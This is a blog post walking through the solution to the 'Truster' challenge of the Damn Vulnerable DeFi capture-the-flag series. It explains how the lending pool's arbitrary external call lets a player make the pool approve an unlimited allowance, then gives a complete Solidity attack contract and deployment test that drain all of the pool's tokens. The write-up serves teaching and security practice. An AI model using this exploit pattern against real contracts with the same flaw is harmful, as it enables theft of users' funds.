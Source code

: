 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #3 solution'
description: 'Explanation of solution to Damn Vulnerable Defi Challenge #3: Truster'
tags: ['defi', 'solidity']
series: 'Damn Vulnerable DeFi'
publishDate: 'Feb 20, 2023 05:48 PM'
---
```



# {frontmatter.title}

<Quote />

_Published <FormattedDate client:only="react" date={props.date} />_

> ## Challenge #3 - Truster
>
> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
>
> The pool holds 1 million DVT tokens. You have nothing.
>
> To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

The pool's `flashLoan` function implements some preventative measures against attacks. Namely, it uses the nonReentrant modifier and an if statement that reverts if its balance is less than its balance before the transfer.

```solidity
// contracts/truster/TrusterLenderPool.sol

function flashLoan(
    uint256 amount,
    address borrower,
    address target,
    bytes calldata data
) external nonReentrant returns (bool) {
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore)
        revert RepayFailed();

    return true;
}
```

There is a single line that throws the contract's security out the window.

`target.functionCall(data);`

It may seem fine since the contract checks its token balance after the function call, but allowing arbitrary function calls is almost never a good idea. It is extremely tricky to audit interactions with external contracts.

The DVT contract inherits from Solmate's ERC20 + EIP-2312 implementation. One method from the ERC-20 specification stands out:

> ### approve
>
> Allows `_spender` to withdraw from your account multiple times, up to the `_value` amount. If this function is called again it overwrites the current allowance with `_value`.

Solmate implements it in its ERC20 contract:

```solidity
// node_modules/solmate/src/tokens/ERC20.sol

function approve(
    address spender,
    uint256 amount
) public virtual returns (bool) {
    allowance[msg.sender][spender] = amount;

    emit Approval(msg.sender, spender, amount);

    return true;
}
```

Since the pool allows us to call any function on its behalf, we can call `approve` with the pool as `msg.sender`. We can set our own allowance, and then transfer the pool's balance to ourselves!

These two actions must be done separately because `flashLoan` would revert if we simply transferred the tokens to ourselves (`RepayFailed`). We can perform multiple actions in a single transaction by executing them in a contract's `constructor`.

Let's create a contract that takes control of all of the pool's tokens. The contract then transfers the tokens to a beneficiary (us).

```solidity
// contracts/truster/Trustee.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";

contract Trustee {
    constructor(TrusterLenderPool pool) {
        pool.flashLoan(
            // "amount" has to be 0.
            // We can't borrow because we won't be repaying a loan.
            0,
            // "borrower" can be any address since we're not borrowing.
            address(0),
            // "target" is the contract we are calling.
            address(pool.token()),
            // "data" is what we call "target" with.
            // We send the approve function's signature along with its arguments.
            // We approve an unlimited amount for Trustee to manage.
            abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this),
                type(uint256).max
            )
        );

        pool.token().transferFrom(
            address(pool),
            msg.sender,
            pool.token().balanceOf(address(pool))
        );
    }
}
```

Now we just compile and deploy `Trustee`. It will transfer all tokens to the deployer on deployment.

```js
// test/truster/truster.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory('Trustee', player)
  ).deploy(pool.address)
})
```
